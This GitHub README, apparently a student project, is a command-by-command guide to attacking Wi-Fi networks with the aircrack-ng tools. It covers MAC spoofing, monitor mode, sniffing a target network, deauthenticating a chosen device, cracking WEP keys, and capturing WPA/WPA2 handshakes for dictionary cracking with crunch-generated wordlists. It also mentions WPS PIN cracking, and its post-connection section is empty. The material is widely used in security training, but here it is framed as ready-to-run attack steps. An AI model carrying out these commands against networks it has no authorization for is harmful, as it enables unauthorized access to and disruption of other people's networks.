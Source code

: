 # Projet-WiFi

* Pre-connection attacks, gaining access & post-connection attacks on WEP, WPA & WPA2.

### Prerequisites
0. Linux + wireless adapter.

1. Change the MAC address of your wireless adapter, either for hiding a computer on a network or for allowing it to impersonate another network device.

```
ifconfig wireless_adapter_name down
ifconfig wireless_adapter_name hw ether 00:19:35:89:88:14
ifconfig wireless_adapter_name up
```

2. Change your wireless interface to "Monitor" mode. By default, the mode of wireless devices is set to "Managed", that means our wireless device will only capture packets that have our device's MAC address as the destination MAC.

```
ifconfig wireless_adapter_name down
airmon-ng check kill (kill all interference processes)
iwconfig wireless_adapter_name mode monitor
ifconfig wireless_adapter_name up
iwconfig
```

### Pre-connection attacks
1. Discover networks around you:
```
airodump-ng wireless_adapter_name
```
![Discover networks around you](https://user-images.githubusercontent.com/64968597/134020395-c7a67e4b-d7d0-4a84-a155-8a67fdf449c9.JPG)

2. Sniff packet from a specified network:
```
airodump-ng --bssid target_MAC --channel N (--write file_name) wireless_adapter_name
```

3. Deauthentication attack (disconnect any device from the network):

This attack will always work ! The only way around it is to change the MAC address on the target machine.
```
aireplay-ng --deauth time_out -a router_addr -c target_mac_addr wireless_adapter_name
```

### Gaining access

1. WEP cracking (100% successful):
   
   Each packet is encrypted using a unique key stream. A random initialization vector (IV) is used to generate the keys stream. This initialization vector is only 24 bits long.
   The IV is too small and sent in plain text, so in busy networks, IV's will repeat, making it vulnerable to statistical attacks. Therefore, the key stream can be determined      and the encryption broken.

   To crack WEP, we need a large number of packets/IVs to analyse the IVs and crack the router's key.

   Step 1: capture a large number of packets
   ```
   airodump-ng --bssid MAC --channel N --write file_name wireless_adapter_name
   ```
   
   Step 2: run aircrack-ng to crack the password
   ```
   aircrack-ng .cap_file_captured_previously
   ```
   Gets cracked instantly !
   
2. WPA/WPA2 cracking:
   
   The goal is to capture the handshake (4 packets) between the router and a device.
   
   Step 1: run a deauthentication attack against a device connected to the router and wait for him to connect back to it OR wait for a new client to connect.
           Catch the handshake using "airodump-ng".
           The handshake doesn't contain data that helps recover the key, but it contains data that can be used to check if a key is valid or not !
           Useful information in the handshake - MIC (Message Integrity Code): SP address, STA address, AP nonce, STA nonce, EAPOL, Payload
   
   Step 2: create a wordlist/dictionnary: "crunch" command
           Example: "crunch 6 8 abc123 -o wordlist.txt" --> creates a wordlist of length 6 to 8 with characters abc123 in a file called wordlist.txt
           Argument "-d 1@" is specified for non-repeating letters.
           Combining the useful information to the wordlist will create new MICs, which will be compared to the real MIC
           if(new_MIC == MIC), then the word generating this MIC is the router's password !
           
   ```
   aircrack-ng file_.cap_containing_handshake -w word_list
   ```
            
https://user-images.githubusercontent.com/64968597/134026257-af761b17-4b0b-4c87-95aa-b7999ee1a2b3.mp4

![password_crack](https://user-images.githubusercontent.com/64968597/134026466-bfc08a47-8d84-4f6f-98af-816a25209824.JPG)


   Another method: exploit the WPS feature (except if PBC is enabled: Push Button Authentication)
                   The WPS feature allows clients to connect without a password.
                   Authentication is done using a 8 digit pin, which can be cracked under a minute.

### Post-connection attacks

✔️
